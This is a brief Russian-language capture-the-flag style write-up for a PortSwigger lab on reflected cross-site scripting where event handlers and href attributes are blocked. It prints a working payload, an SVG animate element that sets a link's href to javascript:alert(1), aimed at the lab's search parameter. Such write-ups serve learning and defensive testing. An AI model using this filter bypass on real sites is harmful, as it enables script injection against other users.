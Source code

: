 # Reflected XSS with event handlers and href attributes blocked

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(XSS)_Cross-site_scripting/Reflected_XSS_with_event_handlers_and_href_attributes_blocked/assets/1.png)

Для решения будем использовать следующий эксплоит:
```
https://0ac900fa04b46e4ac08e1ff1002e002d.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

Код эксплоита без URL кодировки:
```
https://0ac900fa04b46e4ac08e1ff1002e002d.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(XSS)_Cross-site_scripting/Reflected_XSS_with_event_handlers_and_href_attributes_blocked/assets/2.png)
